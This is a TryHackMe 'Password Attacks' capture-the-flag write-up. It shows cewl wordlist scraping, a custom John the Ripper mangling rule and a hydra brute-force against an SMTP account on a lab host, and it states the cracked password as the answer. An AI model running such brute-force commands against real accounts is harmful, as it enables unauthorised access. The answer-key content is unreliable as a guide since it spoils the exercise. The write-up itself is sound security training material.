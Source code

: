# Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
